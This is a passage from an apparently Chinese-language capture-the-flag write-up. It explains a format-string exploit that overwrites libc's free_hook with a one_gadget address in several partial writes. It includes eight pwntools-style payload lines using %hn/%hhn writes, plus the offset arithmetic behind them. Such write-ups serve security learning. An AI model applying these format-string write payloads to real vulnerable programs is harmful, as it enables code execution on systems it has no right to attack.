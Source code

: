 [![](assets/1701612457-954316e7f204aff7ecd149118e891da8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215005-dc196234-11cc-1.png)  
2.然后再用跳板把 free\_hook 改为 one\_gadget  
free\_hook (0x7fde287987a8) 与 one\_gadget (0x7fde2841727a) 也是后 6 位有区别，所以需要多步

```plain
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
```

第一步是先直接修改 free\_hook 的后四位，第二三步是把 \_libc\_start\_main+240 修改成了 free\_hook+2 (free\_hook 最后两位是 0xa8 , 0xa8+0x2=0xaa , 这个地址是用 libc 查找的，所以本地和远程后三位是一致的)，然后再用这种方法修改。

[![](assets/1701612457-4f2278ecf1e941ba9cb389299c25f141.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215645-ca52d746-11cd-1.png)
